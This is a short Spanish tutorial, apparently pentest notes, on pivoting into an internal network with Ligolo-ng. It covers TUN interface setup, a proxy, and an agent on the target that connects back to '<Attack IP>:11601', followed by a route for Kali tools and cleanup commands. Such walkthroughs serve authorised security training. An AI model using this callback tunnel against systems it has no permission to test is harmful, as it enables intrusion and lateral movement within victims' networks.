






El primer paso es crear la interfaz TUN utilizando los siguientes comandos.

`sudo ip tuntap add user <Your Username> mode tun ligolo`

`sudo ip link set ligolo up`

o pueden ser creadas **una vez iniciada la sesión** mediante:

`interface_create --name ligolo`

`tunnel_start --tun ligolo`

Esto creará una nueva interfaz TUN llamada ligolo y la mostrará. La interfaz TUN actúa como una interfaz de red virtual, lo que permite a Ligolo-ng enrutar el tráfico de red.

Para iniciar el proxy con autocertificados:

`ligolo-proxy -selfcert`

Iniciar el agente es simple. Simplemente inicie el agente desde la carpeta en la que lo guardó. Si está utilizando Linux, asegúrese de que sea ejecutable usando el comando chmod +x. Luego, para iniciar el agente y conectarlo al proxy Ligolo-ng, ejecute el siguiente comando:

`./agent -connect <Attack IP>:11601 -ignore-cert`

Ejecutemos el comando “session”, seleccionamos nuestra sesión y presionamos enter.

Desde aquí, podemos ejecutar el comando “ifconfig” para verificar las conexiones de red en el agente conectado.

Podemos confirmar que la máquina target tiene acceso a la red `172.50.0.51/24`. Nuestro siguiente paso es agregar una entrada a la tabla de enrutamiento para que Ligolo pueda enrutar el tráfico a través del túnel y llegar a la red de destino. Para ello, podemos utilizar el comando:

`sudo ip route add <Internal_Network> dev ligolo`

Desde aquí, podemos ejecutar cualquier herramienta de Kali para interactuar con la red interna expuesta como si estuviera conectado directamente a ella.

---

Para eliminar la interfaz `ligolo`:

`sudo ip link set ligolo down`

`sudo ip tuntap del dev ligolo mode tun`

